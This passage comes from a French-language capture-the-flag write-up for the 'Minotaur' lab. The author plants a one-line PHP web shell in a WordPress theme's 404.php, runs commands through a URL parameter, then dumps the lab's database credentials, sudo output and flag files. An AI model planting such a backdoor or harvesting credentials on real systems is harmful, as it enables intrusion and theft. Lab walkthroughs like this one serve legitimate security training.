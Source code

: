 Je n'aurais pas besoin d'exploiter la faille `slideshow-gallery` car je suis admin sur le Wordpress. Je peux simplement éditer un fichier du thème.

Je préfère généralement éditer le fichier `404.php` pour y ajouter ces lignes au début :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); } 
die();
```

J'ai alors mon exécution de commande en appelant n'importe qu'elle page invalide du blog :

http://192.168.56.223/bull/index.php/yolo?cmd=id

## Bull In The Heather

Une fois un shell PTY récupéré je récupère les identifiants de la base de données :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'bullblog');

/** MySQL database username */
define('DB_USER', 'bully');

/** MySQL database password */
define('DB_PASSWORD', 'Might3*as#FG(');
```

Ces derniers ne sont acceptés nul part. L'utilisateur courant `www-data` semble avoir les permissions pour exécuter un script bash mais ça ne fonctionne pas :

```
www-data@minotaur:/var/www/html/bull$ sudo -l
Matching Defaults entries for www-data on minotaur:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on minotaur:
    (root) NOPASSWD: /root/bullquote.sh
```

Finalement je trouve un premier flag dans la racine web :

```shellsession
www-data@minotaur:/var/www/html$ cat flag.txt 
Oh, lookey here. A flag!
Th15 15 @N 3@5y f1@G!
```

et un second dans `/tmp` :

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root www-data 121 May 27  2015 /tmp/flag.txt
-rw-r----- 1 root www-data 1148 May 27  2015 /tmp/shadow.bak
```
